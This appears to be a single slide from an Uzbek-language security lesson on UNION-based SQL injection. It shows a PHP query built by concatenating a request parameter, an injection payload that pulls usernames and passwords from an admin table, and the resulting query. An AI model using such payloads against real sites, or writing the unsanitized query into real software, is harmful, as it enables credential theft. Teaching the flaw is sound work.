

# SQL-Injection
UNION orqali SQL-Inyeksiya:
$res = mysqli_query("SELECT id_news, header, body, author FROM news WHERE id_news = " . $_REQUEST['id']);
Parametr sifatida: -1 UNION SELECT 1,username, password,1 FROM admin
SELECT id_news, header, body, author FROM news WHERE id_news = -1
UNION SELECT 1,username,password,1 FROM admin
Bu holatda buzg'unchi admin jadvalidan foydalanuvchilar nomlari va parollarini olish imkoniga ega bo'ladi.